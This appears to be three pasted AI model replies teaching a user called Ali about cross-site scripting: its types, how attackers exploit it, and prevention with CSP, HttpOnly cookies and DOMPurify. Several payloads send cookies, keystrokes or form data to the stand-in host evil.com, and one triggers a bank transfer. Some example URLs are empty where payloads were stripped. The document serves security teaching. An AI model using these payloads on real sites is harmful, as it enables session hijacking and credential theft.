

Absolutely Ali — let’s break down **Cross-Site Scripting (XSS)** from the ground up. This is one of the most common and dangerous vulnerabilities in web applications. You’ll learn what it is, how it works, the different types, how attackers exploit it, and how to defend against it.

---

## 🧠 What Is Cross-Site Scripting (XSS)?

**XSS** is a vulnerability that allows attackers to inject **malicious scripts** (usually JavaScript) into web pages viewed by other users.

These scripts run in the victim’s browser and can:

* Steal cookies or session tokens
* Log keystrokes
* Redirect users
* Modify page content
* Perform actions on behalf of the user

> In short: XSS lets attackers hijack the user’s browser and impersonate them on a trusted site.

---

## 🔍 Why It Happens

XSS occurs when:

* A web application **includes user input in its output** without proper sanitization or escaping.
* The browser **trusts the page** and executes the injected script as if it were legitimate.

---

## 🧪 Types of XSS

### 1️⃣ **Stored XSS (Persistent)**

* Malicious script is **saved** in the database or server.
* Every time a user loads the affected page, the script executes.

**Example:**

* Attacker posts a comment:
  ```html
  <script>fetch('https://evil.com?cookie=' + document.cookie)</script>
  ```
* Every user who views the comment triggers the script.

---

### 2️⃣ **Reflected XSS**

* Script is injected via the  **URL or request parameters** .
* The server reflects the input in the response without escaping.

**Example:**

```html
https://site.com/search?q=<script>alert('XSS')</script>
```

* If the page displays `q` directly, the script runs.

---

### 3️⃣ **DOM-Based XSS**

* The vulnerability is in  **client-side JavaScript** , not the server.
* The script manipulates the DOM using unsanitized data from the URL or user input.

**Example:**

```js
let user = location.hash.substring(1);
document.getElementById("welcome").innerHTML = user;
```

* URL: `https://site.com/#`

---

## 🧨 How Attackers Exploit XSS

* **Steal session cookies** :

```js
  <script>fetch('https://evil.com?c=' + document.cookie)</script>
```

* **Redirect users** :

```js
  <script>location.href='https://phishing.com'</script>
```

* **Keylogging** :

```js
  <script>
  document.onkeypress = e => fetch('https://evil.com?k=' + e.key)
  </script>
```

* **Deface the page** :

```js
  <script>document.body.innerHTML = 'Hacked!'</script>
```

---

## 🔐 How to Prevent XSS

### ✅ 1. Input Validation

* Only allow expected characters and formats.
* Use allowlists (e.g., only letters and numbers).

### ✅ 2. Output Encoding

* Encode data before inserting into HTML, JavaScript, or URLs.
* Use libraries like OWASP’s [Java Encoder](https://owasp.org/www-project-java-encoder/).

### ✅ 3. Content Security Policy (CSP)

* Restricts what scripts can run on your site.
* Example:
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self'
  ```

### ✅ 4. HTTPOnly Cookies

* Prevents JavaScript from accessing cookies.
  ```http
  Set-Cookie: session=abc123; HttpOnly; Secure
  ```

### ✅ 5. Sanitize User Input

* Use libraries like DOMPurify to clean HTML before rendering.

---

## 🧰 Real-World Example

From [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS) [1]:

A banking site displays a welcome message using a URL parameter:

```html
https://my-bank.example.com/welcome?user=
```

If the site uses `innerHTML` to render the user name, the script executes — allowing attackers to run arbitrary code in the user’s session.

---

## ✅ Final Summary

| Type          | Trigger           | Stored? | Risk                    |
| ------------- | ----------------- | ------- | ----------------------- |
| Stored XSS    | Database content  | ✅ Yes  | High                    |
| Reflected XSS | URL or form input | ❌ No   | Medium                  |
| DOM-Based XSS | Client-side JS    | ❌ No   | High (harder to detect) |

> XSS is dangerous because it runs in the user’s browser — and the browser trusts it. That’s why it can steal data, impersonate users, and hijack sessions.

---

Ali — if you want, I can now walk you through  **building a secure input form** , or simulate an XSS attack in a safe lab like DVWA or PortSwigger Academy. Just say the word!

**Sources:**

[1] [MDN Web Docs – XSS Overview](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS)

[2] [PortSwigger – XSS Types &amp; Prevention](https://portswigger.net/web-security/cross-site-scripting)

[3] [Sucuri – XSS Guide](https://sucuri.net/guides/what-is-cross-site-scripting/)


Absolutely Ali — let’s break down **Normal XSS** and **DOM-Based XSS** completely, so you understand how each works, how they differ, and how attackers exploit them. These are two major categories of **Cross-Site Scripting (XSS)** vulnerabilities.

---

## 🧨 1️⃣ Normal XSS (also called Non-DOM XSS)

### 🔍 What It Is:

Normal XSS occurs when  **user input is sent to the server** , and the server **reflects it back into the HTML response** without proper sanitization or encoding.

The browser then **renders and executes** the malicious script.

### 🧪 Subtypes:

#### ✅ A. Stored XSS (Persistent)

* The malicious script is **saved** in the database or server.
* Every time a user loads the affected page, the script executes.

**Example:**

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

* Attacker posts this in a comment field.
* Every visitor to the page triggers the script.

#### ✅ B. Reflected XSS

* The script is injected via  **URL parameters or form inputs** .
* The server reflects it back in the response.

**Example:**

```html
https://site.com/search?q=<script>alert('XSS')</script>
```

* If the server echoes `q` directly into the page, the script runs.

---

### 🔐 Why It Happens:

* Server-side code **does not sanitize or escape** user input.
* The browser **trusts the HTML** and executes embedded scripts.

---

### ⚠️ Risks:

* Stealing cookies or session tokens
* Redirecting users to phishing sites
* Defacing pages
* Keylogging
* Performing actions on behalf of the user

---

## 🧠 2️⃣ DOM-Based XSS

### 🔍 What It Is:

DOM XSS happens **entirely on the client side** — in the browser.

The server may be safe, but the **JavaScript on the page is vulnerable** because it uses unsanitized data from the URL, cookies, or user input to manipulate the DOM.

> The browser executes the malicious script because the page’s own JavaScript inserted it into the DOM without validation.

---

### 🧪 Example:

```js
let user = location.hash.substring(1);
document.getElementById("welcome").innerHTML = user;
```

If the user visits:

```html
https://site.com/#
```

The page renders:

```html
<div id="welcome"></div>
```

✅ The script runs — even though the server never saw it.

---

### 🔐 Why It Happens:

* JavaScript uses `innerHTML`, `document.write`, or similar methods with  **untrusted input** .
* No sanitization or escaping is applied.
* The browser builds and executes the DOM with malicious content.

---

### ⚠️ Risks:

* Same as normal XSS: session theft, defacement, phishing, etc.
* Harder to detect because it doesn’t show up in server logs.
* Often missed by traditional scanners.

---

## 🔍 Key Differences

| Feature                   | Normal XSS                    | DOM-Based XSS            |
| ------------------------- | ----------------------------- | ------------------------ |
| Location of vulnerability | Server-side                   | Client-side (JavaScript) |
| Input flow                | Request → Server → Response | Browser → DOM           |
| Detection                 | Easier (in logs, responses)   | Harder (in JS logic)     |
| Example vector            | URL param reflected in HTML   | URL hash used in DOM     |

---

## 🛡 How to Prevent Both

### ✅ For Normal XSS:

* Sanitize and encode output on the server
* Use templating engines that auto-escape
* Validate input formats

### ✅ For DOM XSS:

* Avoid using `innerHTML`, `document.write`, etc.
* Use safe DOM APIs like `textContent`, `createElement`
* Sanitize input with libraries like DOMPurify

---

## ✅ Final Summary

| Type          | Trigger        | Vulnerable Layer | Risk Level         |
| ------------- | -------------- | ---------------- | ------------------ |
| Stored XSS    | Saved content  | Server           | 🔥 High            |
| Reflected XSS | URL/form input | Server           | ⚠️ Medium        |
| DOM XSS       | JS logic       | Browser          | 🔥 High (stealthy) |

> XSS is dangerous because it runs in the user’s browser — and the browser trusts it. Whether it’s reflected by the server or injected by client-side code, it can hijack sessions, steal data, and impersonate users.

---


Absolutely Ali — let’s dive deep into  **XSS exploitation** , step by step. You’ll learn how attackers turn a simple script injection into full browser compromise, data theft, and account hijacking. This is the **real-world offensive side** of Cross-Site Scripting.

---

## 🧠 What Is XSS Exploitation?

**XSS exploitation** is the process of using a vulnerable web page to execute **malicious JavaScript** in a victim’s browser.

The attacker doesn’t hack the server — they **hijack the user’s session** by abusing the trust between the browser and the site.

> The browser thinks the script is safe because it came from a trusted site — but it’s actually attacker-controlled.

---

## 🧨 Step-by-Step Exploitation Flow

### 1️⃣ Find an Injection Point

* Input field, URL parameter, comment box, or any place where user input is reflected in the page.
* Example:
  ```html
  https://site.com/search?q=<script>alert(1)</script>
  ```

### 2️⃣ Inject Malicious Payload

* Replace harmless script with a real attack:
  ```html
  <script>fetch('https://evil.com?cookie=' + document.cookie)</script>
  ```

### 3️⃣ Wait for Victim to Load the Page

* If it’s  **stored XSS** , every visitor triggers the payload.
* If it’s  **reflected XSS** , attacker sends a crafted link to the victim.

### 4️⃣ Script Executes in Victim’s Browser

* Browser runs the script with full access to:
  * Cookies
  * LocalStorage
  * DOM
  * Session

### 5️⃣ Data Is Exfiltrated

* Attacker receives stolen data on their server:
  ```js
  fetch('https://evil.com/log?data=' + document.cookie)
  ```

---

## 🧪 Common Exploitation Techniques

### 🔐 1. Stealing Session Cookies

```js
<script>new Image().src='https://evil.com?c='+document.cookie</script>
```

### 🧑‍💻 2. Keylogging

```js
<script>
document.onkeypress = e => {
  fetch('https://evil.com/log?key=' + e.key)
}
</script>
```

### 🔁 3. CSRF Triggering

```js
<script>
fetch('https://bank.com/transfer?amount=1000&to=attacker', { credentials: 'include' })
</script>
```

### 🎭 4. Phishing via Fake Forms

```js
<script>
document.body.innerHTML = '<form action="https://evil.com/phish"><input name="password"></form>'
</script>
```

### 🧬 5. Browser Hijacking

* Redirect user to malicious site:
  ```js
  <script>location.href='https://phishing.com'</script>
  ```

---

## 🧰 Advanced Exploitation

### 🧠 DOM-Based XSS

* Exploit client-side JavaScript logic:
  ```js
  let name = location.hash.substring(1);
  document.body.innerHTML = name;
  ```
* URL: `https://site.com/#`

### 🧪 Bypassing Filters

* Encode payload:
  ```html
  <script src=//evil.com/xss.js></script>
  ```
* Use event handlers:
  ```html
  
  ```

### 🧨 XSS + CSRF Combo

* Use XSS to steal CSRF token, then perform CSRF attack.

---

## 🔐 Real-World Impact

* **Account takeover** : Steal session cookies
* **Data theft** : Read private messages, emails, or files
* **Privilege escalation** : Modify user roles or permissions
* **Internal network access** : Use browser as a pivot
* **Reputation damage** : Deface site or redirect users

---

## ✅ Final Summary

| Exploit Type | Goal              | Example                                |
| ------------ | ----------------- | -------------------------------------- |
| Cookie Theft | Hijack session    | `document.cookie`→`fetch()`       |
| Keylogging   | Capture input     | `document.onkeypress`                |
| CSRF Trigger | Abuse trust       | `fetch(..., credentials: 'include')` |
| Phishing     | Steal credentials | Fake form injection                    |
| Redirect     | Move user to trap | `location.href='evil.com'`           |

> XSS exploitation is about **turning trust into a weapon** — the browser trusts the site, and the attacker abuses that trust to hijack the user.

---

Ali — if you want, I can now walk you through  **building a payload** , or simulate an XSS attack in a safe lab like DVWA, Juice Shop, or PortSwigger Academy. Just say the word!



